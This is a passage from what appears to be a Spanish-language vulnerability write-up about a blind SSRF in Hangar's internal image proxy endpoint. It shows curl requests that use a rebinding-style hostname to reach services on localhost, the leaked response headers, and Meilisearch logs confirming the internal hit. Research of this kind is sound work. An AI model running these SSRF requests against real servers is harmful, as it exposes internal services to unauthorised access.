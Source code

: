 ```bash
< date: Sat, 26 Apr 2025 16:24:05 GMT
< Connection: keep-alive
< Vary: Origin, Access-Control-Request-Method, Access-Control-Request-Headers
< X-Content-Type-Options: nosniff
< Content-Type: application/json
< Content-Length: 126
< 
* Connection #0 to host 10.8.0.1 left intact
{"message":"400 BAD_REQUEST \"Bad content type\"","messageArgs":[],"isHangarApiException":true,"httpError":{"statusCode":400}}
```

En los logs del Meilisearch veo que:

```bash
vzon@none:~/singularity$ docker compose -f ../Hangar/docker/dev.yml logs
... [snip]
meilisearch-1  | 2025-04-26T16:24:05.641772Z  INFO HTTP request{method=GET host="s-01010101.7f000001-760894422-fs-e.dynamic.vzondev.xyz:7700" route=/testing123 query_parameters= user_agent=curl/8.12.1 Hangar/1.0 status_code=404}: meilisearch: close time.busy=432µs time.idle=83.8µs
```

¡La petición ha logrado llegar a un servidor interno! Esto es una vulnerabilidad SSRF (casi por completo) a ciegas debido a que el servidor no muestra el contenido de la respuestas que no tengan en la cabecera `Content-Type` un MIME de imagen. Sin embargo con algunos servidores esto tira el mismo error que vimos con Cloudflare y nos filtra las cabeceras devueltas por el servidor:

```bash
# Estoy corriendo un servidor HTTP Python en 127.0.0.1:8000 
❯ curl -v http://10.8.0.1:8080/api/internal/image/http://s-01010101.7f000001-760894427-fs-e.dynamic.vzondev.xyz:8000/uwuowo
... [snip]
< HTTP/1.1 500 Internal Server Error
< Expires: 0
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Server: SimpleHTTP/0.6 Python/3.11.2
< X-XSS-Protection: 0
< Pragma: no-cache
< X-Frame-Options: DENY
< Date: Sat, 26 Apr 2025 16:42:03 GMT
< Connection: close
< Vary: Origin
< Vary: Access-Control-Request-Method
< Vary: Access-Control-Request-Headers
< X-Content-Type-Options: nosniff
< Content-Type: text/html;charset=utf-8
< Content-Length: 0
< 
* shutting down connection #0
```

Se ve interesante, pero es un poco tediosa de abusar, ya que *depende mucho* del protocolo DNS y como este es manejado tanto por Java como por el servidor que hospeda la aplicación. Asi que seguí viendo por otras cosas.
